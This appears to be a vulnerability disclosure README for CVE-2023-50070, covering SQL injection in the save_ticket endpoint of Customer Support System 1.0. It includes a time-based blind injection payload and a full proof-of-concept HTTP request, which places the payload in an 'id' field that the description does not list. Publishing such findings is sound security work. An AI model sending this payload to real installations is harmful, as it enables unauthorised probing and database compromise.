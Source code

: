 # CVE-2023-50070
# Customer Support System 1.0 - Multiple SQL injection vulnerabilities - save_ticket

**Description**: Multiple SQL injection vulnerabilities in /customer_support/ajax.php?action=save_ticket in Customer Support System 1.0 allow authenticated attackers to execute arbitrary SQL commands via department_id, customer_id and subject.

**Vulnerable Product Version**: Customer Support System 1.0  
**CVE Author**: Geraldo Alcântara  
**Date**: 29/11/2023  
**CVE**: CVE-2023-50070  
**CVE Link**: https://www.cve.org/CVERecord?id=CVE-2023-50070  
**NVD Link**: https://nvd.nist.gov/vuln/detail/CVE-2023-50070  
**Confirmed on**: 15/12/2023  
**Tested on**: Windows  
### Steps to reproduce:  
1- Log in to the application.  
2- Navigate to the page /customer_support/index.php?page=new_ticket.  
3- Create a new ticket and insert a malicious payload into one of the following parameters: department_id, customer_id, or subject.  
**Payload**: '+(select*from(select(sleep(20)))a)+'  

```
POST /customer_support/ajax.php?action=save_ticket HTTP/1.1
Host: 192.168.68.148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------81419250823331111993422505835
Content-Length: 854
Origin: http://192.168.68.148
Connection: close
Referer: http://192.168.68.148/customer_support/index.php?page=new_ticket
Cookie: csrftoken=1hWW6JE5vLFhJv2y8LwgL3WNPbPJ3J2WAX9F2U0Fd5H5t6DSztkJWD4nWFrbF8ko; sessionid=xrn1sshbol1vipddxsijmgkdp2q4qdgq; PHPSESSID=mfd30tu0h0s43s7kdjb74fcu0l

-----------------------------81419250823331111993422505835
Content-Disposition: form-data; name="id"

'+(select*from(select(sleep(20)))a)+'
-----------------------------81419250823331111993422505835
Content-Disposition: form-data; name="subject"

teste
-----------------------------81419250823331111993422505835
Content-Disposition: form-data; name="customer_id"

3
-----------------------------81419250823331111993422505835
Content-Disposition: form-data; name="department_id"

4
-----------------------------81419250823331111993422505835
Content-Disposition: form-data; name="description"

<p>Blahs<br></p>
-----------------------------81419250823331111993422505835
Content-Disposition: form-data; name="files"; filename=""
Content-Type: application/octet-stream

-----------------------------81419250823331111993422505835--
```
Discoverer(s)/Credits:  
Geraldo Alcântara  
